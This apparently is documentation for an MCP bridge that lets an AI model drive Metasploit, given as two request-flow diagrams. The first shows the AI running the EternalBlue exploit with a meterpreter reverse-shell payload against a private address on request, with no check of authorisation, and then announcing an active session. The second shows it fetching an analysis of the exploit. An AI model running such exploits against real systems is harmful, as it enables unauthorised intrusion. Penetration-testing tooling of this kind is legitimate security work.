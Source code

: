 ```
1. USER → AI Assistant
   "Exploit 192.168.1.100 using ms17_010"

2. AI Assistant → MetasploitMCP
   MCP Request: run_exploit()
   Parameters: {
     exploit: "exploit/windows/smb/ms17_010_eternalblue",
     target_opts: {"RHOSTS": "192.168.1.100"},
     payload: "windows/x64/meterpreter/reverse_tcp",
     payload_opts: {"LHOST": "192.168.1.50", "LPORT": 4444}
   }

3. MetasploitMCP → Metasploit (msfrpcd)
   RPC Call: module.execute
   With all parameters

4. Metasploit → Target
   Sends exploit packets
   Establishes session if successful

5. Metasploit → MetasploitMCP
   Returns: {session_id: 1, success: true}

6. MetasploitMCP → AI Assistant
   Formatted response

7. AI Assistant → USER
   "Successfully exploited! Session 1 is active."
```

### Scenario 2: AI-Powered Analysis

```
1. USER → AI Assistant
   "Tell me about the ms17_010 exploit"

2. AI Assistant → MetasploitMCP
   MCP Request: analyze_exploit_with_ai()
   Parameters: {exploit_name: "ms17_010"}

3. MetasploitMCP → OpenRouter API
   Sends exploit details
   Requests analysis

4. OpenRouter (AI Model) → MetasploitMCP
   Returns: Detailed analysis, risks, mitigations

5. MetasploitMCP → AI Assistant
   Formatted analysis

6. AI Assistant → USER
   "MS17-010 is a critical Windows SMB vulnerability..."
```
